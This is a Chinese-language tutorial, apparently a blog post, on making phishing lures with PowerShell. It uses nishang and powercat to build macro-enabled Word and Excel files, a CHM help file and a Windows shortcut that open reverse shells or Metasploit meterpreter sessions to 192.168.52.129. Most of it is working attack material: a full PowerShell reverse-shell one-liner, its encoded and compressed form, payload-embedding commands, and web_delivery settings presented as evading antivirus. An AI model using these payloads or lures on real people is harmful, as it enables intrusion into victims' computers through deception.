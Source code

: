 # 使用powershell Client进行有效钓鱼

0x00 简介
=======

* * *

**Powershell**是windows下面非常强大的命令行工具，并且在windows中Powershell可以利用.NET Framework的强大功能，也可以调用windows API，在win7/server 2008以后，powershell已被集成在系统当中。 除此之外，使用powershell能很好的bypass各种AV，在渗透测试中可谓是一个神器。此次使用的是开源的powershell脚本集[nishang](https://github.com/samratashok/nishang)中的client来制作钓鱼文件。其中office类型文件可以达到钓鱼目的的前提是`office已经启用宏`。

0x01制作word钓鱼文件
==============

* * *

下载[powercat](https://github.com/besimorhino/powercat)（**powershell的nc**）

加载powercat ：

```
PS G:\github\Pentest\powershell\powercat-master> . .\powercat.ps1
PS G:\github\Pentest\powershell\powercat-master> powercat
You must select either client mode (-c) or listen mode (-l).

```

加载以后使用powercat开启监听：

```
PS G:\github\Pentest\powershell\powercat-master> powercat -l -v -p 4444
详细信息: Set Stream 1: TCP
详细信息: Set Stream 2: Console
详细信息: Setting up Stream 1...
详细信息: Listening on [0.0.0.0] (port 4444)

```

测试加载Invoke-PowerShellTcp并执行：

```
PS G:\github\Pentest\powershell\nishang-master\Shells> . .\Invoke-PowerShellTcp.ps1
PS G:\github\Pentest\powershell\nishang-master\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 127.0.0.1 -Port 4444

```

执行结果如下图：

![Alt text](http://drops.javaweb.org/uploads/images/ef9d9e553708d62875bcd3dd16f6bce216ad9d3c.jpg)

可以发现，直接获取了一个powershell的shell。下面制作word文件。 复制nishang中Invoke-PowerShellTcpOneLine.ps1 client代码，如下：

```
$client = New-Object System.Net.Sockets.TCPClient("192.168.52.129",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text language=".encoding"][/text]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

使用Invoke-Encode.ps1进行编码,编码之前记得要修改ip以及自己要监听的端口

```
PS G:\github\Pentest\powershell\nishang-master\Shells> cd ..\Utility\
PS G:\github\Pentest\powershell\nishang-master\Utility> . .\Invoke-Encode.ps1
PS G:\github\Pentest\powershell\nishang-master\Utility> Invoke-Encode -DataToEncode '$client = New-Object System.Net.Sockets.TCPClient("192.1
68.52.129",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$da
ta = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendb
ack + "PS " + (pwd).Path + "> ";$sendbyte = ([text language=".encoding"][/text]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream
.Flush()};$client.Close()' -IsString -PostScriptCommand
Encoded data written to .\encoded.txt
Encoded command written to .\encodedcommand.txt

```

复制encodedcommand.txt的代码如下：

```
Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String('TVHNasJAEL4X+g5DSMsuNUtMG6mGCm1oi1CiNEIP4mFNBpMao5gRFfXdu5uY1L3MMHx/M2tGWYo5wQsEuLOGs1+MCMJDQbgUAZIIV9ECqRBjf+SXSGa0u45od56Fq4rTNVpP6nHPLGiDcqmEzEpSfCKF5YxxbzI7EE6mU1PXQoFsITqu++ie7o722dslaYaMmammV0LiG2XMKnwL7BZUrfjCfE4J52DlCDY/emYsSSoeu1rAGh/WGMgl1quMcU/iNfQHg/c8WsVpPueXfKqtXbRJqjfBPJ7JaKFFU9xD5eD079twguGWrIoGV1AHyuQ18QGMUQiGqmy9i7kYSUr0sA/GhaMMtfyEdDC8ZJr2emXGMtubzsT+HZoTi59NSsgaHZW76evzNNiPbFskjJ+9+lf8bFUg47c3fw==')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();

```

加载Out-Word.ps1并生成后门，这里要注意，`要把payload里面的单引号多加一个单引号！`

```
PS G:\github\Pentest\powershell\nishang-master\Utility> . ..\Client\Out-Word.ps1
PS G:\github\Pentest\powershell\nishang-master\Utility> Out-Word -Payload 'powershell -c Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression.DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(''TVHNasJAEL4X+g5DSMsuNUtMG6mGCm1oi1CiNEIP4mFNBpMao5gRFfXdu5uY1L3MMHx/M2tGWYo5wQsEuLOGs1+MCMJDQbgUAZIIV9ECqRBjf+SXSGa0u45od56Fq4rTNVpP6nHPLGiDcqmEzEpSfCKF5YxxbzI7EE6mU1PXQoFsITqu++ie7o722dslaYaMmammV0LiG2XMKnwL7BZUrfjCfE4J52DlCDY/emYsSSoeu1rAGh/WGMgl1quMcU/iNfQHg/c8WsVpPueXfKqtXbRJqjfBPJ7JaKFFU9xD5eD079twguGWrIoGV1AHyuQ18QGMUQiGqmy9i7kYSUr0sA/GhaMMtfyEdDC8ZJr2emXGMtubzsT+HZoTi59NSsgaHZW76evzNNiPbFskjJ+9+lf8bFUg47c3fw=='')))), [IO.Compression.CompressionMode]::Decompress)), [Text.Encoding]::ASCII)).ReadToEnd();'
Saved to file G:\github\Pentest\powershell\nishang-master\Utility\Salary_Details.doc
0
PS G:\github\Pentest\powershell\nishang-master\Utility>

```

执行word以后，则会反弹shell，在启用宏的计算机上没有任何提示，未启用宏的计算机会有启用宏的提示。

![Alt text](http://drops.javaweb.org/uploads/images/af1618cfac92c2ae7552813d42289e1c8eea05b4.jpg)

获取反弹的powershell可以很容易的升级到metasploit的meterpreter。

0x02制作excel钓鱼文件
===============

* * *

首先使用msf的web_delivery开启一个powershell的监听：

```
#bash
msf > use exploit/multi/script/web_delivery 
msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(web_delivery) > set LHOST 192.168.52.129
LHOST => 192.168.52.129
msf exploit(web_delivery) > set URIPATH /
URIPATH => 
msf exploit(web_delivery) > exploit 

```

开启服务如下图：

![Alt text](http://drops.javaweb.org/uploads/images/3528e441c940561956dc8956ab1893ac5388e64f.jpg)

使用Out-Excel.ps1制作excel钓鱼文件:

```
D:\temp>powershell
Windows PowerShell
版权所有 (C) 2015 Microsoft Corporation。保留所有权利。    

PS D:\temp> . .\Out-Excel.ps1
PS D:\temp> Out-Excel -PayloadURL http://192.168.52.129:8080/ -OutputFile  D:\temp\test.xls
Saved to file D:\temp\test.xls
0

```

其中`http://192.168.52.129:8080/`是msf开启的服务地址。 运行excel，获取meterpreter会话如下图：

![Alt text](http://drops.javaweb.org/uploads/images/c0d5a104260f2c153fc3f1d2d2c668828ac12423.jpg)

0x03制作chm钓鱼文件
=============

* * *

依然使用msf开启powershell的web_delivery，使用Out-CHM制作chm钓鱼文件：

```
PS D:\temp> Out-CHM -PayloadURL http://192.168.52.129:8080/ -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702    

Compiling d:\temp\doc.chm    


Compile time: 0 minutes, 1 second
2       Topics
4       Local links
4       Internet links
0       Graphics    


Created d:\temp\doc.chm, 13,524 bytes
Compression increased file by 324 bytes.
PS D:\temp>

```

运行doc.chm,获取meterpreter会话:

![Alt text](http://drops.javaweb.org/uploads/images/f8fe9a12d832beb9582c59ecaad92cf60e66a4aa.jpg)

缺点是会弹出黑框框。丢给几个小伙伴测试，都上线了（23333）。

0x04制作快捷方式钓鱼文件
==============

* * *

依然使用之前开启的web_delivery,使用Out-Shortcut制作快捷方式钓鱼文件。

```
PS D:\temp> . .\Out-Shortcut.ps1
PS D:\temp> Out-Shortcut -PayloadURL http://192.168.52.129:8080/ -HotKey 'F3' -Icon 'notepad.exe'
The Shortcut file has been written as D:\temp\Shortcut to File Server.lnk

```

其中PayloadURL为web_delivery服务地址，Icon为快捷方式的图标，HotKey为快捷键。 右键属性快捷方式，可以看到快捷方式指向我们的服务地址，如下图：

![Alt text](http://drops.javaweb.org/uploads/images/53282a9109791559272b386d896c0d6eb74082b0.jpg)

运行快捷方式，可以获取meterpreter会话：

![Alt text](http://drops.javaweb.org/uploads/images/cd83ffbb9cf0e196e93bd8606ab596c0331d8f4b.jpg)

0x05小结
======

* * *

测试发现，上面几个方式还是挺有效的，使用chm方式更容易成功些，因为使用了powershell，防护软件并没有报警，其中还有WebQuery、java以及hta类型的钓鱼文件生成脚本，笔者测试java以及hta方式的没有成功，这里就不介绍了，至于WebQuery方式的在FB上已经有详细的介绍：[传送门](http://www.freebuf.com/news/76581.html)有兴趣的小伙伴可以继续研究研究。